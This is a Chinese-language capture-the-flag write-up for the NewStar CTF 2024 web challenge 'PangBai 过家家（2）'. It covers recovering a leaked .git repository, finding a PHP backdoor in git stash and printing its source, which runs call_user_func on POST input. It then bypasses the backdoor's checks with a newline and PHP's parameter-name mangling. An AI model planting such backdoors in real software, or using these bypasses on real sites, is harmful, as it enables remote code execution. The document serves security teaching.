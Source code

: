 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# PangBai 过家家（2）

题目所给出的提示是文件泄露（其实用 dirsearch 等扫描工具也可以扫描到 .git 目录）。

![任务一](/assets/images/wp/2024/week2/pangbai2_1.png)

使用 [GitHacker](https://github.com/WangYihang/GitHacker) 工具从 .git 文件夹中泄露文件到本地。

![使用githacker](/assets/images/wp/2024/week2/pangbai2_2.png)

:::info 关于 GitHacker

GitHacker 工具可快速使用 pip 安装：

```bash
pip install githacker
```

:::

随后进入 output 文件夹，可以看到恢复的网站源码：

![查看恢复的源码](/assets/images/wp/2024/week2/pangbai2_3.png)

可以使用 git 命令查看当前项目的信息，比如使用 `git log` 查看提交历史

![查看提交历史](/assets/images/wp/2024/week2/pangbai2_4.png)

使用 `git reset HEAD~1` 可以回到上一个 Commit，或者直接使用 VSCode 打开泄露出来的 Git 存储库，能够更可视化地查看提交历史。

但是很遗憾，提交历史中并没有有价值的东西。查看 Stash：

```bash
git stash list
```

![git stash 输出信息](/assets/images/wp/2024/week2/pangbai2_5.png)

可以看到 Stash 中含有后门（实际上在 GitHacker 泄漏时就有 stash 的输出信息）

::: warning 注意

如果使用 GitHack 或其它的一些 Git 泄露获取工具，可能并不支持恢复 Stash.

:::

::: tip Stash 的作用

有时会遇到这样的情况，我们正在 dev 分支开发新功能，做到一半时有人过来反馈一个 bug，让马上解决，但是又不方便和现在已经更改的内容混杂在一起，这时就可以使用 `git stash` 命令先把当前进度保存起来。随后便可以即时处理当前要处理的内容。使用 `git stash pop` 则可以将之前存储的内容重新恢复到工作区。

又或者，我们已经在一个分支进行了修改，但发现自己修改错了分支，可以通过 Stash 进行存储，然后到其它分支中释放。

一些常见的 Stash 命令如：

- `git stash`

  保存当前工作进度，会把暂存区和工作区的改动保存起来。执行完这个命令后，在运行 `git status` 命令，就会发现当前是一个干净的工作区，没有任何改动。使用 `git stash save '一些信息'` 可以添加一些注释。

- `git stash pop [-index] [stash_id]`

  从 Stash 中释放内容，默认为恢复最新的内容到工作区。

:::

使用 `git stash pop` 恢复后门文件到工作区。

![恢复文件](/assets/images/wp/2024/week2/pangbai2_6.png)

发现了后门文件 `BacKd0or.v2d23AOPpDfEW5Ca.php`，访问显示：

![访问后门文件对应的网址](/assets/images/wp/2024/week2/pangbai2_7.png)

由于 `git stash pop` 已经将文件释放了出来，我们可以直接查看后门的源码：

```php
<?php

# Functions to handle HTML output

function print_msg($msg) {
    $content = file_get_contents('index.html');
    $content = preg_replace('/\s*<script.*<\/script>/s', '', $content);
    $content = preg_replace('/ event/', '', $content);
    $content = str_replace('点击此处载入存档', $msg, $content);
    echo $content;
}

function show_backdoor() {
    $content = file_get_contents('index.html');
    $content = str_replace('/assets/index.4f73d116116831ef.js', '/assets/backdoor.5b55c904b31db48d.js', $content);
    echo $content;
}

# Backdoor

if ($_POST['papa'] !== 'TfflxoU0ry7c') {
    show_backdoor();
} else if ($_GET['NewStar_CTF.2024'] !== 'Welcome' && preg_match('/^Welcome$/', $_GET['NewStar_CTF.2024'])) {
    print_msg('PangBai loves you!');
    call_user_func($_POST['func'], $_POST['args']);
} else {
    print_msg('PangBai hates you!');
}
```

后面的考点是 PHP 中关于非法参数名传参问题。我们重点关注下面这个表达式：

```PHP
$_GET['NewStar_CTF.2024'] !== 'Welcome' && preg_match('/^Welcome$/', $_GET['NewStar_CTF.2024'])
```

对于这个表达式，可以使用换行符绕过。`preg_match` 默认为单行模式（此时 `.` 会匹配换行符），但在 PHP 中的该模式下，`$` 除了匹配整个字符串的结尾，还能够匹配字符串最后一个换行符。

::: tip 拓展

如果加 `D` 修饰符，就不匹配换行符：

```python
preg_match('/^Welcome$/D', "Welcome\n")
```

:::

但如果直接传参 `NewStar_CTF.2024=Welcome%0A` 会发现并没有用。这是由 `NewStar_CTF.2024` 中的特殊字符 `.` 引起的，PHP 默认会将其解析为 `NewStar_CTF_2024`. 在 PHP 7 中，可以使用 `[` 字符的非正确替换漏洞。当传入的参数名中出现 `[` 且之后没有 `]` 时，PHP 会将 `[` 替换为 `_`，但此之后就不会继续替换后面的特殊字符了因此，GET 传参 `NewStar[CTF.2024=Welcome%0a` 即可，随后传入 `call_user_func` 的参数即可。

![获取到 flag](/assets/images/wp/2024/week2/pangbai2_8.png)
